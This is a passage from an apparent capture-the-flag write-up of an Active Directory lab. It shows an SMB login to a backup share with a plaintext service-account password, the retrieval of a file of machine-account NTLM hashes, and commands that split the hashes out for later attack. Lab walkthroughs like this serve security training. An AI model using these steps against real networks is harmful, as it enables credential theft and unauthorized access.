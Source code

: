 
Extact `backup_extract.txt`

```sh
smbclient //$(IP)/backup -U 'SOUPEDECODE.LOCAL\file_svc'
```

OR

```sh
impacket-smbclient 'SOUPEDECODE.LOCAL/file_svc:Password123!!@dc01.soupedecode.local'
```
{: .wrap }

```sh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use backup
# ls
drw-rw-rw-          0  Mon Jun 17 17:41:17 2024 .
drw-rw-rw-          0  Fri Jul 25 17:51:20 2025 ..
-rw-rw-rw-        892  Mon Jun 17 17:41:23 2024 backup_extract.txt
# get backup_extract.txt
```

The file contains a list of account names and their corresponding `NTLM hashes`.

```sh
cat backup_extract.txt                                                                                     
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```

Let’s parse the file to separate list for accounts and NTLM hashes.


```sh
cat backup_extract.txt | cut -d ':' -f 1 > machines.txt                                                    
```

```sh
cat backup_extract.txt | cut -d ':' -f 4 | awk '{print "00000000000000000000000000000000:"$1}' > hashes.txt
```

```sh
cat backup_extract.txt | cut -d ':' -f 4 > hashes.txt 
```
